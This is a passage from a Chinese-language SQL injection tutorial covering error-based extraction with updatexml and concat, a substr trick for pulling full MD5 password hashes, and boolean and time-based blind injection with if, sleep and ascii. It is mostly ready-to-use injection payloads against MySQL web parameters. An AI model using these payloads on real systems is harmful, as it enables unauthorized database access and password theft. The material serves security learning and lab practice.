 ```bash
#concat 也可以放在外面 updatexml(1,concat(0x7e,(select password from users limit 1,1),0x7e),1)
```



这里需要注意的是它加了连接字符，导致数据中的 md5 只能爆出 31 位，这里可以用分割函数分割出来：

```bash
substr(string string,num start,num length); #string为字符串,start为起始位置,length为长度

?id=1' and updatexml(1,concat(0x7e, substr((select password from users limit 1,1),1,16),0x7e),1) -- +
```



## **盲注**

> 场景：无回显，并且没有报错和其他显示。且如果能用布尔就不用延迟



**几个相关函数：**

```bash
regexp regexp '^xiaodi[a-z]' 匹配xiaodi及xiaodi...等
if if(条件,5,0) 条件成立 返回5 反之 返回0
sleep sleep(5) SQL语句延时执行5秒
mid mid(a,b,c)从位置 b 开始， 截取 a 字符串的 c 位
substr substr(a,b,c)从 b 位置开始， 截取字符串 a 的 c 长度
left left(database(),1)，database()显示数据库名称， left(a,b)从左侧截取 a 的前 b 位
length length(database())=8，判断数据库database()名的长度
ord=ascii ascii(x)=101，判断x的ascii码是否等于101，即email中的字母e
IFNULL() 函数用于判断第一个表达式是否为 NULL，如果为 NULL 则返回第二个参数的值，如果不为 NULL 则返回第一个参数的值。
CAST()和CONVERT()函数可用来获取一个类型的值，并产生另一个类型的值。两者具体的语法如下：CAST(value as type); CONVERT(value, type);
```



### **时间注入**

时间盲注也叫延时注入, 一般用到函数 `sleep()`, `BENCHMARK()`,还可以使用笛卡尔积(尽量不要使用,内容太多会很慢很慢)

一般时间盲注我们还需结合**条件判断函数**：

```bash
#if（expre1，result1，result2）
当 expre1 为 true 时，返回 result1，false 时，返回 result2

#盲注的同时也配合着 mysql 提供的分割函数：substr、substring、left
```

一般喜欢把分割的函数编码一下，当然不编码也行，编码的好处就是可以不用引号，常用到的就有： `ascii()`,` hex()` 等等

```
?id=1' and if(ascii(substr(database(),1,1))>115,1,sleep(5))--+

?id=1' and if((substr((select user()),1,1)='r'),sleep(5),1)--+
```
